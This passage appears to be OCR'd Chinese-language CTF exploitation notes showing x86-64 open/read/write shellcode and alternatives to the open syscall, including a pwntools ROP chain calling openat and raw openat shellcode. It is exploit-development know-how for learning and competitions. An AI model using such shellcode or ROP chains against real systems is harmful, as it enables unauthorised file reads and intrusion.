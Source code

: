 ```python
    mov rsi, 0
    mov rdx, 0
    mov rax,2
    syscall
"""   # open

shellcode += """
    mov rdi, 3
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall
"""   # read

shellcode += """
    mov rdi, 1
    mov rsi, rsp
    mov rdx, 0x100
    mov rax, 1
    syscall
"""   # write
```

### open替代

#### openat

> **rop**
>
> ```python
> rop += flat(pop_rdi, 3, pop_rsi, libc.sym["_IO_list_all"]+8, pop_rdx_r12, 0, 0, libc.sym["openat"])
> ```

> **shellcode**
>
> ```python
> shellcode += shellcraft.amd64.linux.openat(3,'rsp', 0)
> 
> 
> shellcode += """
> mov rdi, -100 #mov rdi, 3也可以，但是不通用，要是fd=3所指的目录
> mov rsi, rsp
> mov rdx, 0
> mov r10, 0
> mov rax,0x101
> syscall
> """
> ```

#### openat2
